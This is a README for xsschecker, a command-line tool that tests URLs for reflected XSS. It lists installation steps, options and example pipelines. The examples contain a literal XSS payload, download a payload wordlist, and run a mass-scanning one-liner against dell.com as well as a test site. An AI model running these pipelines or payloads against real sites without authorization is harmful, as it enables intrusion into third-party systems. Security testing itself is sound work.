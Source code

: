 ## xsschecker

xsschecker tests endpoints for reflected XSS by injecting payloads and checking responses. It prints vulnerable if the payload is reflected, otherwise not vulnerable.

## Installation
```
go install github.com/rix4uni/xsschecker@latest
```

## Download prebuilt binaries
```
wget https://github.com/rix4uni/xsschecker/releases/download/v0.0.5/xsschecker-linux-amd64-0.0.5.tgz
tar -xvzf xsschecker-linux-amd64-0.0.5.tgz
rm -rf xsschecker-linux-amd64-0.0.5.tgz
mv xsschecker ~/go/bin/xsschecker
```
Or download [binary release](https://github.com/rix4uni/xsschecker/releases) for your platform.

## Compile from source
```
git clone --depth 1 github.com/rix4uni/xsschecker.git
cd xsschecker; go install
```

## Usage
```
Usage: xsschecker [OPTIONS]

Options:
  -H string
        Custom User-Agent header for HTTP requests. (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36")
  -ao string
        File to append the output instead of overwriting.
  -filter
        Print only URLs Exclude this from output, (e.g. Vulnerable/Not Vulnerable: [status] [server]).
  -i string
        Input file containing list of URLs.
  -match string
        The string(s) to match against the domain response. Separate multiple strings with commas. (required) (default "alert(1), confirm(1), prompt(1)")
  -maxssc int
        Maximum number of status code responses required before skipping all URLs from that domain, This flag only can be use with -ssc flag. (default 20)
  -nc
        Do not use colored output.
  -o string
        File to save the output.
  -proxy string
        Proxy server for HTTP requests. (e.g., http://127.0.0.1:8080)
  -retries int
        Number of retry attempts for failed HTTP requests. (default 1)
  -scdn string
        Comma-separated server names to skip all URLs for (e.g., "cloudflare,AkamaiGHost,CloudFront,Imperva").
  -ssc string
        Comma-separated status codes to skip all URLs from a domain if encountered (e.g., 403,400).
  -t int
        Number of concurrent threads. (default 20)
  -timeout int
        Timeout for HTTP requests in seconds. (default 15)
  -u string
        Single URL to test.
  -v    Enable verbose output for debugging purposes.
  -version
        Print the version of the tool and exit.
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Usage Examples
### Reflected XSS Mass Automation
```
▶ Step 1:
wget https://raw.githubusercontent.com/rix4uni/WordList/refs/heads/main/payloads/xss/favourite.txt
if grep -qv "^rix4uni" "favourite.txt";then sed -i 's/^/rix4uni/' "favourite.txt";fi

▶ Step 2:
echo "dell.com" | subfinder -duc -silent -nc | waybackurls | urldedupe -s | grep -aE '=|%3D' | \
egrep -aiv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)' | \
pvreplace -silent -payload favourite.txt -fuzzing-mode single | xsschecker -nc -match 'rix4uni' -vuln

▶ Step 3:
You can run pyxss to check false positive or check manually one by one url in chrome
```

### Reflected XSS Oneliner for 1 payload
```
▶ Step 1:
echo "testphp.vulnweb.com" | waybackurls | urldedupe -s | grep -aE '=|%3D' | \
egrep -aiv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)' | \
pvreplace -silent -payload 'rix4uni"><Img Src=OnXSS OnError=(confirm)(1)>' -fuzzing-mode single | xsschecker -nc -match 'rix4uni' -vuln

▶ Step 2:
You can run pyxss to check false positive or check manually one by one url in chrome
```

### Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)
